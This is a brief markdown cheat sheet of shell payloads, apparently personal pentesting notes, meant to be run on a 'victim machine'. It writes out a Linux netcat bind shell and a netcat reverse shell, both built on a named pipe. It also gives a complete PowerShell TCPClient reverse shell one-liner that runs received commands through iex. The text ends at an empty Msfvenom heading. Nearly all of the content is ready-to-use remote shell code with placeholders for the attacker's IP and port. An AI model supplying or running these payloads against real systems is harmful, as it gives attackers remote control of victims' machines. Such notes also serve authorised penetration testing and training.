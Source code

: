 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

> Creating a bind shell for linux 
'mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f'
  - It creates a pipe and then starts the nc listner/executes the command

> Creating a Reverse shell for Linux
'mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f'

### Nc using pipe for windows
'powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
Replace the <IP> & <Port>

# Msfvenom

